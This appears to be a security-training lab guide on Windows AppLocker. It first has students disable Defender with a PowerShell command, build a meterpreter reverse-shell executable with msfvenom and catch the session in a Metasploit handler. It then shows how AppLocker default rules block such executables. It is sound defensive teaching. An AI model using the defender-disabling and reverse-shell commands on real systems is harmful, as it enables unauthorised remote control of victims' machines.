





# AppLocker

Applocker Instructions:

Let’s see what happens when we do not have AppLocker running.  We will set up a simple backdoor and have it connect back to the Ubuntu system.  Remember, the goal is not to show how we can bypass EDR and Endpoint products.  It is to create a simple backdoor and have it connect back.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Thankfully, we have a couple of scripts that greatly simplify this process.  Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

####NOTE##### 

If you are having trouble with Windows Terminal, you can simply start each of the three shells, we use by starting them directly from the Windows Start button. 

 

Simply click the Windows Start button in the lower left of your screen and type: 

 

`Powershell` 

or 

`Ubuntu`

or 

`Command Prompt` 

 

For PowerShell and Command Prompt, please right click on them and select Run As Administrator 

###END NOTE###

On your Linux system, please run the following command:

$`ifconfig`

Please note the IP address of your Ethernet adapter.  

Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`

Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

Now, let’s download the malware and run it!

First, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

`cd \tools`

Then, run it.

`TrustMe.exe`

Back at your Ubuntu prompt, you should have a metasploit session!

Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.

In the right hand pane, you will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”

This should generate a subset of rules for each group.  It should look similar to how it does below: 

Next, we need to enforce the rules:

To do this you will need to select AppLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  This will bring up the Services App.  Please select that and then double-click “Application Identity.”

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little white user icon:

The password is ADHD.

Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

You will see that most of the .exe files will generate an error.

You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.

